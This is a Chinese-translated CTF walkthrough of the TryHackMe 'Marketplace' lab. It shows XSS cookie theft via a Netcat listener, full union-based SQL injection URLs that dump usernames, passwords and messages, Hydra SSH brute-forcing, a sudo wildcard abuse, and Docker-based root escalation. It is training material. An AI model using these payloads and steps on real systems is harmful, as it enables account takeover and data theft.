# 商场盒子(THM)演练

> 原文：<https://infosecwriteups.com/walkthrough-on-marketplace-box-thm-bc7652cfcf9c?source=collection_archive---------3----------------------->

让我们解决来自 Tryhackme 的名为“市场”的盒子

市场徽标

# 渗透测试方法

1.  **侦察**
2.  **枚举**
3.  **利用**
4.  **权限提升**

在 [Tryhackme](https://tryhackme.com/room/marketplace) 访问此框

# **侦察:-**

HTTP 和 ssh 打开时，Nmap 提供以下输出



Nmap

# **枚举:-**

由于有一个网络服务器，我们可以遍历网站，甚至可以在网站上注册



注册页面

*   通过浏览网站，我们可以添加新的列表，并将 XSS 有效载荷添加到这些值有效载荷- ``



*   如果我们通过 Netcat 监听端口，它会等待用户点击并访问页面
*   现在在网页上，有一个选项向管理员报告我们的列表，他将批准/不批准该列表



*   点击`report to admin`后，将在 Netcat 监听器上检索管理 cookie



*   通过用管理 cookie 更改用户 cookie，将向我们显示管理面板，我们可以访问面板上的第一个标志



# 剥削:-

*   通过转到`Administration panel`并选择一个用户，我们将有一个从数据库获取数据的 URL
*   因此，通过输入带有用户值的`'''`,我们可以看到 SQL 错误



*   我们现在可以通过使用下面的命令`http://10.10.167.63/admin?user=10 union select database(),2,3,4--`来检索数据库名称



*   我们可以通过下面的命令`http://10.10.167.63/admin?user=10%20%20union%20select%201,group_concat(table_name),3,4%20from%20information_schema.tables where table_schema=database()--%20-`检索表名



*   我们可以通过下面的命令`http://10.10.167.63/admin?user=10%20%20union%20select%201,group_concat(column_name),3,4%20from%20information_schema.columns where table_name=users--%20-`检索列名



*   转储用户表数据`http://10.10.167.63/admin?user=10%20%20union%20select%201,group_concat(username,0x3a,password),3,4%20from users--%20-`



*   消息表的检索列`http://10.10.167.63/admin?user=10%20%20union%20select%201,group_concat(column_name),3,4%20from%20information_schema.columns where table_name='messages'--%20-`



*   转储消息表数据`http://10.10.167.63/admin?user=10%20%20union%20select%201,group_concat(message_content),3,4%20from%20messages--%20-`



*   消息内容为将成为`system,jack,michael`的用户暴露`ssh password`
*   因此，我们可以使用 hydra 使用检索到的密码暴力破解用户名，结果发现 ssh 密码属于 jake



# 权限提升

*   通过 ssh 以`jake`的身份登录，我们可以在 jake 目录中看到`user.txt`
*   通过运行`sudo -l`，我们可以看到杰克可以作为迈克尔运行`/opt/backups/backup.sh`
*   通过使用下面的命令，我们可以利用 backup.sh 中的`*`
*   然后通过升级 backup.sh 和 shell.sh 的权限，我们就可以运行并得到一个 Michael 的 shell 了
*   通过接收 shell，我们可以使用`python -c "import pty;pty.spawn('/bin/bash')"`升级到 TTY



*   现在，我们可以创建一个新的 docker 容器，将根文件系统挂载到/mnt



*   我们可以从`/root/root.txt`访问`root.txt`